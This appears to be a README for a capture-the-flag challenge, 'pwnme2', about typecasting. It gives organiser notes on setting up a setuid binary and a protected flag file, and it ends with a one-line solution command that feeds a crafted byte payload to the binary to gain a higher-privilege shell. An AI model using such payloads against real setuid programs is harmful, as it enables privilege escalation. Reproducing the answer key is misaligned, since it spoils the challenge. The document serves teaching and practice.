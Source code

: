# Challenge: pwnme2

# Points: 75

# Description: 

Do you know typecasting?
Look at [this](./pwnme2) executable. 
[This](./pwnme2.c) is the sourcefile. 

# Hint: 

1. Read the sourcefile properly. 


NOTE FOR US:

NOTE TO US: 


2. While setting up, the user of **pwnme2** executable should be **pwnme2** it should be setuid to **pwnme2_pwn**. 

3. This is how convert pwnme2 into a setuid executable: 

a. Create 2 users with names **pwnme2** and **pwnme2_pwn**. . 
b. Change the owner of pwnme2-executable to **pwnme2_pwn** - chown pwnme2_pwn pwnme2
c. Change the group of pwnme2-executable to **pwnme2** - chgrp pwnme2 pwnme2
d. Set the setuid bit: chmod u+s pwnme2

So, a user with pwnme2 prvileges can also run executables with pwnme2_pwn(higher privileges) and get a shell with higher privileges to read **flag.txt** . 

4. There is a flag.txt with user **pwnme2_pwn** and group **pwnme2_pwn**. So, only with the shell with privileges **pwnme2_pwn**, one will be able to read flag.txt.

4. With tha flag.txt, the following should be done to ensure only **pwnme2_pwn** user is able to read it and no one else. 

$ sudo chmod 0400 flag.txt  - Damn Important because in normal cases, "others" are allowed to read files owned by higher-privilege-users but this should happne in our case. 

This is very very important!


./pwnme2 `python -c "print '\xdd\xb7\xd5\xdb\x57\xd7\x5f\x19' * 7 + '\xe4\xb7\xd5\xdb\x57\xd7\x5f\x19'"`
